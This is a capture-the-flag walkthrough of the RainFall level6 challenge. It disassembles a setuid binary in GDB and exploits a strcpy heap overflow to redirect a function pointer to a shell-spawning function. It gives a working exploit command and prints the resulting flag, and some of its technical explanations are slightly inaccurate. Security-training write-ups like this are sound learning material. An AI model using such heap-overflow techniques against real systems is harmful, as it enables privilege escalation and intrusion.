 ## Walkthrough

We list the files in the current home directory.

```bash
level6@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
level6@RainFall:~$ file level6
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped

```

The file is owned by **level7** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

There are 3 interesting functions: `main()`, `m()` and `n()`.

```nasm
gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   ebp
   0x0804847d <+1>:	mov    ebp,esp
   0x0804847f <+3>:	and    esp,0xfffffff0
   0x08048482 <+6>:	sub    esp,0x20
   0x08048485 <+9>:	mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:	mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:	mov    edx,0x8048468
   0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:	mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:	add    eax,0x4
   0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:	mov    edx,eax
   0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:	call   eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
```

This function: 

- **Aligns the stack**: Adjusts the stack pointer to ensure it is aligned to a 16-byte boundary, adhering to the System V AMD64 ABI calling convention.
- Allocate memory : Invokes the `malloc()` function twice:
    - The first call requests 64 bytes (0x40 in hexadecimal), storing the returned pointer in `[esp + 0x1c]`.
    - The second call requests 4 bytes (0x4 in hexadecimal), storing the returned pointer in `[esp + 0x18]`.

```nasm
0x080484a5 <+41>:	mov    edx,0x8048468
0x080484aa <+46>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ae <+50>:	mov    DWORD PTR [eax],edx

0x080484b0 <+52>:	mov    eax,DWORD PTR [ebp+0xc]
0x080484b3 <+55>:	add    eax,0x4
0x080484b6 <+58>:	mov    eax,DWORD PTR [eax]
0x080484b8 <+60>:	mov    edx,eax
0x080484ba <+62>:	mov    eax,DWORD PTR [esp+0x1c]
```

**Sets up function pointers**:

- Moves the address of the `m()` function (located at `0x8048468`) into the `edx` register.
- Sets the first byte of the memory allocated by the second `malloc()` call to point to `m()`.
- Retrieves the first command-line argument (`argv[1]`) and prepares it for use.

```nasm
 0x080484be <+66>:	mov    DWORD PTR [esp+0x4],edx
 0x080484c2 <+70>:	mov    DWORD PTR [esp],eax
 0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
```

- Prepares the arguments for the `strcpy()` function.
- Copies the string from `argv[1]` to the memory allocated by the first `malloc()` call.

```nasm
0x080484ca <+78>:	mov    eax,DWORD PTR [esp+0x18]
0x080484ce <+82>:	mov    eax,DWORD PTR [eax]
0x080484d0 <+84>:	call   eax
```

- **Calls function `m()`**: Dereferences the function pointer and invokes the function it points to.

The `m()` function:

```nasm
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   ebp
   0x08048469 <+1>:	mov    ebp,esp
   0x0804846b <+3>:	sub    esp,0x18
   0x0804846e <+6>:	mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave  
   0x0804847b <+19>:	ret    
End of assembler dump.
```

This function: 

- **Prepares to print a string**: Loads the address of the string "Nope" (located at `0x80485d1`) into the stack.
- **Prints the string**: Calls the `puts()` function to output the string "Nope" to standard output.

Although it is not called by the program, there is a `n()` function:

```nasm
Dump of assembler code for function n:
   0x08048454 <+0>:	push   ebp
   0x08048455 <+1>:	mov    ebp,esp
   0x08048457 <+3>:	sub    esp,0x18
   0x0804845a <+6>:	mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```

This function:

- **Prepares to execute a shell command**: Loads the address of the string "/bin/sh" (located at `0x80485b0`) into the stack.
- **Invokes the shell**: Calls the `system()` function to execute the `/bin/sh` shell, providing an interactive command-line interface.

### Heap smashing using strcpy() vulnerability

The `strcpy()` function is vulnerable to buffer overflow because it does not check if the `destination` buffer is large enough to contain the `source` string. Similarly, the program does not perform this check before calling `strcpy()` . 

### Overwriting the address

To achieve our goal, we need to craft a string such that the total number of characters printed is `72` which is number of bytes between the pointer of the 1st and 2nd malloc allocation.  

This gives us : 

```bash
'a' * 72
```

### Converting the address

The `n()` function is located at the address `0x8048454`. To properly inject this address, we need to represent it in **little-endian** format, as this is how memory addresses are stored on the target system. The little-endian format for the address `0x8048454` is:  `\x54\x84\x04\x08` .

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

```nasm
'\x54\x84\x04\x08'
```

### Final command
The final command is :
```bash
The final command is :
level6@RainFall:~$ python -c "print('a' * 72 + '\x54\x84\x04\x08')" > /tmp/level6
level6@RainFall:~$ ./level6 `cat /tmp/level6`
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
